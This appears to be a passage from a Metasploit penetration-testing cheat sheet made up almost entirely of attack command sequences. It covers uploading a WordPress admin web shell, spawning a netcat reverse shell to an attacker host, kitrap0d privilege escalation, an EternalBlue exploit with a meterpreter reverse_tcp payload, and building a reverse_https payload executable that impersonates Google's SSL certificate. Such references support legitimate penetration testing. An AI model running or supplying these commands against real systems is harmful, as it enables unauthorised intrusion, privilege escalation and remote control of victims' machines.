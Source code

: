 #### WP Shell Upload

```console
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD P@s5w0rd!
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /wordpress
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS <RHOST>
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LHOST <LHOST>
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LPORT <LPORT>
msf6 > run
```

#### Example Execution

```console
meterpreter > cd C:/inetpub/wwwroot/wordpress/wp-content/uploads
meterpreter > execute -f nc.exe -a "-e cmd.exe <LHOST> <LPORT>"
```

#### Dedicated Exploits

```console
msf6 exploit(multi/handler) > use exploit/windows/local/ms10_015_kitrap0d
msf6 exploit(windows/local/ms10_015_kitrap0d) > set session 1
msf6 exploit(windows/local/ms10_015_kitrap0d) > set LHOST <LHOST>
msf6 exploit(windows/local/ms10_015_kitrap0d) > set payload windows/meterpreter_reverse_tcp
msf6 exploit(windows/local/ms10_015_kitrap0d) > exploit
```

#### Additional Options

```console
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LPORT <LPORT>
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST <LHOST>
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS <RHOST>
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit -j
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -i 1
```

### Meterpreter SSL Certificate Validation

> https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation

```console
msf6 > use auxiliary/gather/impersonate_ssl
msf6 auxiliary(gather/impersonate_ssl) > set RHOST www.google.com
msf6 auxiliary(gather/impersonate_ssl) > run
```

```console
msf6 auxiliary(gather/impersonate_ssl) > use payload/windows/meterpreter/reverse_http
msf6 payload(windows/meterpreter/reverse_http) > set stagerverifysslcert true
msf6 payload(windows/meterpreter/reverse_http) > use payload/windows/meterpreter/reverse_https
msf6 payload(windows/meterpreter/reverse_https) > set stagerverifysslcert true
msf6 payload(windows/meterpreter/reverse_https) > set HANDLERSSLCERT /home/<USERNAME>/.msf4/loot/20240229080801_default_142.250.186.164_142.250.186.164__899022.pem
msf6 payload(reverse_https) > set LHOST <LHOST>
msf6 payload(reverse_https) > set LPORT <LPORT>
msf6 payload(reverse_https) > generate -t exe -f /tmp/<FILE>.exe
```
